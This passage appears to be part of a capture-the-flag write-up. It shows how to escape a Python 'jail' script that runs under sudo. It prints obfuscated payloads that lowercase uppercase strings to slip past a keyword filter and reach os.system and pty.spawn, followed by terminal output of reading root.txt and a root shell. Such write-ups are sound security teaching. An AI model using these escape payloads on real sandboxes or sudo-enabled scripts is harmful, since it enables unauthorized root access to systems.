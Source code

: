 ```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')

# Origin: import os; os.system('cat /root/root.txt')
```

```
[REDACTED]@vagrant:~$ sudo /usr/bin/python3 /home/[REDACTED]/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /root/root.txt')
[REDACTED]
No Kaneki you are so dead
```

Optionally, this payload could be used to establish the root shell:

```
__builtins__.__dict__['__IMPORT__'.lower()]('PTY'.lower()).__dict__['SPAWN'.lower()]('/bin/bash')

# Origin: import pty;pty.spawn('/bin/bash')
```

```
[REDACTED]@vagrant:~$ sudo /usr/bin/python3 /home/[REDACTED]/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('PTY'.lower()).__dict__['SPAWN'.lower()]('/bin/bash')
root@vagrant:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vagrant:~# pwd
/home/[REDACTED]
root@vagrant:~# cd /root
root@vagrant:/root# cat root.txt
[REDACTED]
```
